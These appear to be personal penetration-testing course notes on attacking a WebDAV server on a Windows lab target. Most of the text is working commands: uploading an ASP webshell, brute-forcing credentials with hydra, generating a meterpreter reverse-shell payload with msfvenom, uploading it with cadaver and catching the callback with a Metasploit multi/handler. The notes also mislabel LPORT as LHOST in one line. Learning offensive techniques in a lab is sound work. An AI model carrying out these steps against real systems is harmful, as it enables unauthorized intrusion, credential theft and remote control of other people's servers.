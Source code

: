 	+ `put /usr/share/webshells/asp/webshell.asp` 
		+ uploads the file, can even see it was uploaded from the browser
		+ Can also `execute` it from the browser, will now be able to execute commands on the target system 
+ On Windows remember that `ls` is `dir`
	+ can list the C drive with: `dir C:\`
+ Also remember on Windows that `cat` is `type`

<mark style="background: #FFB86CA6;">--script=http-enum</mark>
+ nmap scan to <mark style="background: #ADCCFFA6;">get information about the Http servers</mark>, including if WebDAV is running 
+ Example: `nmap -sV -p 80 10.3.18.171 --script=http-enum`
  + will often have the WebDAV directory as `/webdav/`
  + will also often say if you get a 401 unauthorized, meaning WebDAV needs credentials 

<mark style="background: #D2B3FFA6;">hydra</mark> can be used to <mark style="background: #ADCCFFA6;">brute force the credentials</mark> 
+ Example: `hydra -L /usr/share/wordlists/metasploit/common_users.txt -P /usr/share/wordlists/metasploit/common_passwords.txt 10.3.18.171 http-get /webdav/`
  + Where both the username and password is brute-force
  + `-L` to specify user list
  + `-P` to specify password list
  + the directory `/webdav/` will be gotten with a http-get and provided credentials 

### Exploiting WebDAV With Metasploit ###

#### Manual Way ####
<mark style="background: #D2B3FFA6;">msfvenom</mark>
+ Can be used to <mark style="background: #ADCCFFA6;">generate a payload</mark> to get a meterpreter session, which is an advance reverse shell (upload/download files)
+ Example: `msfvenom -p windows/meterpreter/reverse_tcp LHOST=USERIP LPORT=1234 -f asp > shell.asp`
	+ payload is specified with `-p`
	+ `LHOST` is our computer 
	+ `LHOST` is the port we will listen with 
	+ `-f` is to specify file type
	+ `>` sends it to the file with the specified name

Can now use <mark style="background: #D2B3FFA6;">cadaver</mark> to <mark style="background: #ADCCFFA6;">send the payload</mark>
+ To get webdav sudo shell:
	+ Example: `cadaver http://10.3.22.26/webdav`
	+ Will also need to put username and password
+ Now can upload the payload: 
	+ Example: `put /root/shell.asp`

Now need to set up a <mark style="background: #BBFABBA6;">listener</mark> or <mark style="background: #BBFABBA6;">handler</mark> to listen for out payload reaching out to us when we run it
+ Will first set up the postgresql service because metasploit needs it 
	+ `service postgresql start && msfconsole`
+ Then will set up the handler:
	+ `use multi/handler`
	+ `set payload windows/meterpreter/reverse_tcp`
	+ `set LHOST 10.1.0.9` (our IP)
	+ `set LPORT 1234` (based on what we put in the payload)
